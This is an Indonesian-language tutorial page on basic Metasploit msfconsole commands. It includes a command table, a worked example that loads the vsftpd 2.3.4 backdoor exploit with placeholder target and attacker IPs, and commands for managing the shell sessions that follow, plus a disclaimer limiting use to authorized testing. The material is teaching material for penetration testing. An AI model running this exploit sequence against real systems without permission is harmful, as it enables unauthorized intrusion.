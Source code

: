 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Antarmuka%20Metasploit%20Framework.md">Antarmuka Metasploit Framework</a>
</p>

# Perintah Dasar MSFconsole

## A. Apa Itu MSFconsole?

`msfconsole` adalah antarmuka CLI utama dalam Metasploit Framework. Untuk bisa menggunakan Metasploit secara efektif, penting untuk menguasai perintah-perintah dasarnya.

## B. Menjalankan MSFconsole:

```
msfconsole
```

Setelah dijalankan, kamu akan masuk ke CLI Metasploit:

```
msf6 >
```

## C. Daftar Perintah Dasar MSFconsole yang Wajib Diketahui

| Perintah | Fungsi |
|:--:|:--:|
| `help` atau `?`	| Menampilkan semua perintah yang tersedia. |
| `search <KEYWORD>` | Mencari `exploit`, `payload`, `auxiliary`, `dll`. |
| `use <NAMA_MODUL>` | Memilih modul tertentu untuk digunakan. |
| `info` |	Menampilkan informasi detail dari modul yang sedang dipilih. |
| `show options` | Menampilkan parameter yang bisa diatur pada modul. |
| `set <PARAMETER> <NILAI>` |	Mengatur parameter (contoh: `RHOSTS`, `LHOST`, `PAYLOAD`). |
| `unset <PARAMETER>`	| Menghapus nilai parameter yang telah diatur. |
| `show payloads	`| Menampilkan semua payload yang kompatibel. |
| `show exploits`	| Menampilkan semua exploit yang tersedia. |
| `show auxiliary` | Menampilkan modul bantu seperti scanner. |
| `exploit` atau `run` | Menjalankan modul exploit. |
| `back` | Kembali ke menu utama dari modul. |
| `exit` atau `quit` | Keluar dari msfconsole. |

## D. Contoh Penggunaan Sederhana:

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS <IP_TARGET>
set LHOST <IP_ATTACKER>
exploit
```

## E. Perintah Session

Jika exploit berhasil, biasanya akan membuka session:

| Perintah | Fungsi |
|:--:|:--:|
| `sessions` | Menampilkan daftar sesi aktif |
| `sessions -i <ID>`	| Masuk ke session yang aktif |
| `background`	| Menyimpan session ke latar belakang |
| `sessions -k <ID>` | Menghentikan session tertentu |

## Tips Tambahan
- Gunakan `tab` untuk auto-complete.
- Gunakan `Ctrl + C` untuk menghentikan exploit yang sedang berjalan.
- Gunakan `jobs` dan `kill <ID>` untuk melihat dan menghentikan job background.

> Gunakan hanya untuk pembelajaran dan pada sistem yang kamu punya izin untuk uji coba.


<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Perintah%20Dasar%20MSFconsole.md">Perintah Dasar MSFconsole</a>
</p>
